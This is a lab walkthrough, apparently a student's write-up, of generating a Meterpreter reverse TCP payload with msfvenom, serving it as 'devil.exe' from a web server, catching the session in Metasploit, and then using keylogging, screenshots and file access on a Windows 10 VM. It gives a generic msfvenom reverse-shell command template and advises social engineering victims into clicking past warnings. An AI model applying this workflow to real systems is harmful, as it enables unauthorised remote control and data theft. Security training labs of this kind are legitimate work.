# Creating a Meterpreter Reverse TCP Payload with msfvenom  
*A safe controlled environment within a lab*

---

## 1. Overview  
A Meterpreter reverse TCP setup is a two‑part process used in controlled cybersecurity labs and in real life to demonstrate/show how remote sessions are established and managed. It revolves around a payload that calls back to a listener that you control.

---

## 2. Understanding Reverse TCP  
A reverse TCP payload is designed so that:

- The target system initiates a connection.
- The connection returns to a listener you control.
- The listener waits on a specific IP address and port.
- Metasploit handles the session once the connection is made.
- You can then use commands to move about the system and acces files as if you were a user.

---

## 3. msfvenom Payload Structure  
msfvenom follows a consistent structure when generating payloads:

```
msfvenom -p <payload_type> LHOST=<listener_ip> LPORT=<listener_port> -f <output_format> -o <filename>
```

Where:

- `<payload_type>` identifies the platform and session type.
- `<listener_ip>` is the IP address where your handler waits.
- `<listener_port>` is the port the payload connects back to.
- `<output_format>` determines the file type (e.g., exe, raw, etc.).
- `<filename>` is where it gets saved to and what the file is called.

This is the conceptual pattern used when building payloads for lab demonstrations.

---

## 4. Execution
- First I found out the ip address of my kali machine using ```ifconfig```:



- I then used the structure of msfvenom to create a meterpreter payload into a file called 'devil.exe':



- I then set up a web server where my file was saved so people could access it through the web:



### 4.1 How to set up the listener
In Metasploit, a handler is configured to wait for the incoming connection.  
The handler must use the same:

- payload type  
- LHOST  
- LPORT  

This ensures the session can be established correctly in your lab.





---

## 5. Establishing the Session  
When the payload is executed inside your controlled environment, it connects back to the handler.  
Metasploit then opens a session, allowing you to interact with the system

- This is where you  might have to use some social engineering to make the user find and run the file
- The user would visit your web server and see all of the files there including your devil.exe one:



- A lot of warnings come up to warn you against downloading it however you can just press 'run anyway'







- As soon as the user runs the file then almost immediately your handler catches it and a reverse_tcp meterpreter session has been made.



---

## 6. Access
- Once the session has been made you can run things like ```sysinfo``` to get system information and ```pwd``` to print the working directory that you are in.

- You can also do things like scan keystrokes, take snapshots of the screen edit and download files and a lot more:



## 7. Notes 
- The target machine was a windows 10 vm run in virtual box
- The point of the payload was to establish a reverse connection to gain access to the machine

---

## 8. Summary  
This document outlines the conceptual workflow for generating a Meterpreter reverse TCP payload using msfvenom. It covers:

- how payloads are structured

- how listeners operate

- how reverse connections behave

- how sessions are managed in a controlled environment
